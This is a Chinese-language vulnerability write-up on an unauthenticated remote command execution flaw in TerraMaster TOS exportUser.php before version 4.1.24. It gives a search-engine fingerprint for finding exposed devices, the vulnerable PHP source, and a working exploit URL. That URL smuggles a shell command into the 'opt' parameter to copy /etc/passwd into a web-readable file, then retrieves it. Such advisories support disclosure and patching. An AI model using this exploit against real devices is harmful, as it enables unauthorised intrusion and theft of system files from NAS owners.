 # TerraMaster TOS exportUser.php 远程命令执行

# TerraMaster TOS exportUser.php 远程命令执行

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

```
TerraMaster TOS < 4.1.24
```

## 网络测绘

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```plain
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

```plain
http://xxx.xxx.xxx.xxx/include/test.txt
```

![](/images/202202101951230.png)

